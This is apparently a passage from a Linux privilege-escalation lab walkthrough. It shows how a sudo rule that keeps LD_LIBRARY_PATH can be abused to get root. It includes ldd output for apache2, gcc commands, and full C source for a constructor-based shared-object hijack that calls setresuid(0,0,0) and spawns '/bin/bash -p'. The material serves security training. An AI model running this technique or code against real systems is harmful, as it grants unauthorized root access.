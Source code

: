 1. ruid : real user ID
2. euid : effective user ID
3. suid : set-user-ID 

#### Same thing for setguid
```
int setresuid(uid_t ruid, uid_t euid, uid_t suid);
int setresgid(gid_t rgid, gid_t egid, gid_t sgid);
```
Run **ldd** against the **apache2** program file to see which **shared libraries** are used by the program:
```
$ ldd /usr/sbin/apache2
```
Create a **shared object** with the same name as one of the listed libraries (libcrypt.so.1) using the code located at /home/user/tools/sudo/library_path.c:
```
$ gcc -o /tmp/libcrypt.so.1 -shared -fPIC /home/user/tools/sudo/library_path.c
```
Run **apache2** using **sudo**, while settings the **LD_LIBRARY_PATH** environment variable to **/tmp (where we output the compiled shared object)**:
```
$ sudo LD_LIBRARY_PATH=/tmp apache2
```
#### A root shell should spawn. Exit out of the shell. Try renaming /tmp/libcrypt.so.1 to the name of another library used by apache2 and re-run apache2 using sudo again. Did it work? If not, try to figure out why not, and how the library_path.c code could be changed to make it work.

#### Remember to exit out of the root shell before continuing!

### Now lets try renaming /tmp/libcrypt.so.1 to /tmp/libpcre.so.3 used by apache2 and re-run apache2 using sudo again and lets see if gives us the root shell.

```diff
$ ldd /usr/sbin/apache2

	linux-vdso.so.1 =>  (0x00007fffdc5a4000)
+ libpcre.so.3 => /lib/x86_64-linux-gnu/libpcre.so.3 (0x00007fbae5d1a000)
	libaprutil-1.so.0 => /usr/lib/libaprutil-1.so.0 (0x00007fbae5af6000)
	libapr-1.so.0 => /usr/lib/libapr-1.so.0 (0x00007fbae58bc000)
	libpthread.so.0 => /lib/libpthread.so.0 (0x00007fbae56a0000)
	libc.so.6 => /lib/libc.so.6 (0x00007fbae5334000)
	libuuid.so.1 => /lib/libuuid.so.1 (0x00007fbae512f000)
	librt.so.1 => /lib/librt.so.1 (0x00007fbae4f27000)
+ libcrypt.so.1 => /lib/libcrypt.so.1 (0x00007fbae4cf0000)
	libdl.so.2 => /lib/libdl.so.2 (0x00007fbae4aeb000)
	libexpat.so.1 => /usr/lib/libexpat.so.1 (0x00007fbae48c3000)
	/lib64/ld-linux-x86-64.so.2 (0x00007fbae61d7000)

+$ echo "void pcre_free(){}" >> tools/sudo/library_path.c   
$ cat tools/sudo/library_path.c 
#include <stdio.h>
#include <stdlib.h>

static void hijack() __attribute__((constructor));

void hijack() {
	unsetenv("LD_LIBRARY_PATH");
	setresuid(0,0,0);
	system("/bin/bash -p");
}
```